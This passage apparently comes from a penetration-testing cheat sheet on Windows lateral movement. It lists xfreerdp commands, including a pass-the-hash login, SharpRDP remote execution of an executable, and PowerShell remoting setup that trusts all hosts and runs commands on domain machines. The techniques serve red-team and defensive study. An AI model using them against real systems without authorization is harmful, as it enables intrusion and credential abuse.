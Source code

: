 * [freerdp](https://www.freerdp.com)

    ```powershell
    root@payload$ xfreerdp /v:10.0.0.1 /u:'Username' /p:'Password123!' +clipboard /cert-ignore /size:1366x768 /smart-sizing
    root@payload$ xfreerdp /v:10.0.0.1 /u:username # password will be asked
    
    # pass the hash using Restricted Admin, need an admin account not in the "Remote Desktop Users" group.
    # pass the hash works for Server 2012 R2 / Win 8.1+
    # require freerdp2-x11 freerdp2-shadow-x11 packages instead of freerdp-x11
    root@payload$ xfreerdp /v:10.0.0.1 /u:username /d:domain /pth:88a405e17c0aa5debbc9b5679753939d  
    ```

* [0xthirteen/SharpRDP](https://github.com/0xthirteen/SharpRDP)

    ```powershell
    PS C:\> SharpRDP.exe computername=target.domain command="C:\Temp\file.exe" username=domain\user password=password
    ```

## Powershell Remoting Protocol

### Powershell Credentials

```ps1
PS> $pass = ConvertTo-SecureString 'supersecurepassword' -AsPlainText -Force
PS> $cred = New-Object System.Management.Automation.PSCredential ('DOMAIN\Username', $pass)
```

### Powershell PSSESSION

* Enable PSRemoting on the host

    ```ps1
    Enable-PSRemoting -Force
    net start winrm  

    # Add the machine to the trusted hosts
    Set-Item wsman:\localhost\client\trustedhosts *
    Set-Item WSMan:\localhost\Client\TrustedHosts -Value "10.10.10.10"
    ```

* Execute a single command

    ```powershell
    PS> Invoke-Command -ComputerName DC -Credential $cred -ScriptBlock { whoami }
    PS> Invoke-Command -computername DC01,CLIENT1 -scriptBlock { Get-Service }
    PS> Invoke-Command -computername DC01,CLIENT1 -filePath c:\Scripts\Task.ps1
    ```
